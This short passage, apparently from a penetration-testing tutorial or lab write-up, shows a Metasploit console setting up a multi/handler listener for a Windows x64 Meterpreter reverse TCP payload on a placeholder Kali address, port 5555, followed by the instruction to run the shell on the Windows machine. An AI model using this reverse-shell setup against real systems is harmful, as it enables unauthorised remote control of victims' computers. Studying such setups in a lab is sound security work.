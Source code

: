 ```
   0   Wildcard Target


msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <kali ip>
LHOST => <kali ip>
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on <kali ip>:5555 
```
run shell on windows machine